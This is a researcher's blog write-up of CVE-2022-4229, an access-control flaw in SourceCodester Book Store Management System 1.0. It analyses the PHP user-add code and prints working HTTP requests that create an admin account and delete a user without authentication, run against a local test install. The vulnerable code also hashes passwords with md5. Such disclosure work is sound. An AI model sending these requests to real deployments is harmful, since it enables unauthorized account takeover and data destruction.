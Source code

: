 ```yaml
---
title: "CVE-2022-4229: SourceCodester Book Store Management System 1.0 /bsms_ci/index.php Access Control"
author: msplmee
date: 2022-11-30 11:33:00 +0700
categories: [Blog, CVE]
tags: [CVE]
pin: false
math: true
mermaid: true
image:
  path: /assets/img/posts/CVE-2022-4229/cve-2022-4229.png
---
```


## Introduction

In the realm of cybersecurity, discovering a vulnerability and obtaining a CVE (Common Vulnerabilities and Exposures) entry is a significant achievement. It marks a milestone in an individual's journey as a security researcher, demonstrating their expertise and contribution to the field. In this blog post, I am excited to share my personal journey of uncovering one of the initial CVEs identified by our team. We will delve into the details of CVE-2022-4229, a specific vulnerability impacting the SourceCodester Book Store Management System 1.0, and discuss the implications of its access control issue.

## Understanding CVE-2022-4229

[CVE-2022-4229](https://www.cve.org/CVERecord?id=CVE-2022-4229) is a vulnerability classified as critical was found in SourceCodester Book Store Management System 1.0. This vulnerability affects an unknown part of the file /bsms_ci/index.php. The manipulation with an unknown input leads to a access control vulnerability. The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. As an impact it is known to affect confidentiality, integrity, and availability.

**Affected product(s)/code base**: [Book Store Management System Source Code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip)

**Affected component(s):**

- /bsms_ci/index.php/category/\*
- /bsms_ci/index.php/book/\*
- /bsms_ci/index.php/transaction/\*
- /bsms_ci/index.php/history/\*
- /bsms_ci/index.php/user/\*

## Technical Details

### System Installation/Setup

1. Open your XAMPP Control Panel and start Apache and MySQL.
2. Extract the [downloaded source code](https://www.sourcecodester.com/sites/default/files/download/oretnom23/bsms_ci.zip) zip file.
3. Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
4. Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
5. Create a new database named ci_bsms_db.
6. Import the provided SQL file. The file is known as ci_bsms_db.sql located inside the database folder.
7. Browse the Book Store Management System in a browser. i.e. http://localhost/bsms_ci/

### Source Code Analyst

A PHP function called `add()` responsible for adding a user in the context of a Book Store Management System. Here's a breakdown of the code:

```php
/* Location: ./application/controllers/User.php */
public function add()
{
    if ($this->input->post('save')) {
		if ($this->user->save_user()) {
            $this->session->set_flashdata('message', 'Used Added Successfully');
            redirect('user','refresh');
        } else {
            $this->session->set_flashdata('message', 'Failed to Add');
            redirect('user','refresh');
        }
    }
}

```

When this function is called, it first checks if the 'save' parameter is present in the `POST` request. If it exists, it calls the `save_user()` function of the `$this->user` object.

If the `save_user()` function returns true, indicating that the user was successfully saved in the system, the code sets a flash message using `set_flashdata()` with the message "User Added Successfully". It then redirects the user to the 'user' page using the `redirect()` function.

On the other hand, if the `save_user()` function returns false, indicating a failure in saving the user, the code sets a flash message with the message "Failed to Add" and redirects the user to the 'user' page.

The `save_user()` function is called to save the user's information into the database. Here is the code for the function:

```php
/* Location: ./application/models/M_user.php */
public function save_user()
{
		$object=array(
				'user_code'=>$this->input->post('user_code'),
				'fullname'=>$this->input->post('fullname'),
				'username'=>$this->input->post('username'),
				'password'=>md5($this->input->post('password')),
				'level'=>$this->input->post('level')
			);
		return $this->db->insert('user', $object);
}
```

In this code, the function creates an array called `$object` that contains the user's information. It retrieves the data from the `POST` request parameters such as `user_code`, `fullname`, `username`, `password`, and `level`. The `md5()` function is used to hash the password before storing it in the database.

The function then calls the `insert()` method of the database object (`$this->db`) to insert the `$object` array into the user table.

The function returns the result of the `insert()` method, which indicates whether the user was successfully saved in the database or not.

&#10233; After analyzing the code, it appears that there is a missing check for user authorization or privileges in the `add()` function. This omission can potentially lead to a security vulnerability where unauthorized users can access and add users to the system.

### Exploitation Execution

#### Add new account without cookie

Request:

```http
POST /bsms_ci/index.php/user/add HTTP/1.1
Host: localhost
Content-Length: 64
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

fullname=john&username=john&password=12345&level=admin&save=Save
```

![Add new account without cookie](/assets/img/posts/CVE-2022-4229/add_user.png)

#### Delete account without cookie

```http
GET /bsms_ci/index.php/user/hapus/2 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/bsms_ci/index.php/user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

![Delete account without cookie](/assets/img/posts/CVE-2022-4229/delete_user.png)
